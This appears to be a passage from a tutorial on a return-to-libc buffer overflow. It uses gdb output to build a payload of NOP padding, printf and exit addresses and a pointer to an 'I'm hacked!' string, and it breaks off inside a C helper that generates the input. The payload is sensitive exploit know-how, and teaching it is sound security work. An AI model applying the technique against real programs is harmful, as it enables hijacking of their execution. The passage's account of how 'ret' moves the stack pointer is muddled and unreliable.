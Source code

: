 ```
(gdb) p &printf
$2 = (<data variable, no debug info> *) 0xf7e32f60 <printf>
```

To print something, we need to make sure ```esp``` is pointing to what we want to print (i.e. ```I'm hacked!``` in this case), and then call ```printf``` function! The input message should be like this:
[several padding to return address] -- [address to ```printf```] -- [pointer to hacking message]

To call the ```printf``` function is easy, we just need to overwrite the return address in ```main``` function with ```printf``` address, which we've already figured out as  ```0xf7e32f60```. 

Then where is the hacking message? Remember the ```printf``` function print message out until it find a ```null``` terminator. Therefore we could not put the hacking message at front of input message and followed by the padding, since in this way we would print rubbish that we don't want to. So we have to put them at the end of input message. Thus, the input message should be like this:
[several padding to return address] -- [address to ```printf```] -- [pointer to hacking message] -- [hacking message]

One last thing, we need some padding at after return to ```printf```, this is because we use ```printf``` function not by "call" but by "return". As we analyzed before, just before call ```printf```, we make sure ```esp``` pointing to message we want to print out. But when we use "return" to call a function, it first put ```esp``` to ```eip``` and then pop ```esp``` so that ```esp``` will move up by 4 bytes. Also, the value in this padding is the return address after return from ```printf```, i.e. the program will try to execute code at the position of this padding value. So we could put an ```exit``` here to let the program stop.

```
(gdb) p &exit
$5 = (<text variable, no debug info> *) 0xf7e17b10 <exit>
```

Okay! Let's hack it!
We know...
1. The address we are going to write from is: ```0xffffd220```
2. The original return address is at: ```0xffffd23c```
3. The return address need to overwrite as ```0xf7e32f60```
4. The exit address is ```0xf7e17b10```
5. And we put hacking message at the end: ```I'm hacked!```

So, what we need is:
```0xffffd220``` : 28 ```\x90``` as padding
......
```0xffffd23c``` : ```0xf7e32f60``` address to call ```printf```
```0xffffd240``` : ```0xf7e17b10``` address to exit, also as padding
```0xffffd244``` : ```0xffffd248``` pointer to printing message
```0xffffd248``` : ```I'm hacked!```

Another important thing we need to keep in mind is, our system is generally small-endian. This means instead of ```0xf7e32f60``` as is human readable, we need to put ```0x602fe3f7``` in our input message. The same thing holds to ```0xffffd248``` and ```0xf7e17b10```.

So, based on all these analysis. We get our input message:
28 ```\x90```  ```0x602fe3f7``` ```0x107be1f7``` ```0x48d2ffff``` ```I'm hacked!```

To generate the text we could have a helper program ```hack```

```c
/* basic hack.c */
#include <stdio.h>

int main(int argc, char** argv)
{
        int i = 0;
        //padding
        for(i = 0; i < 28; i++)
        {
                printf("\x90");
```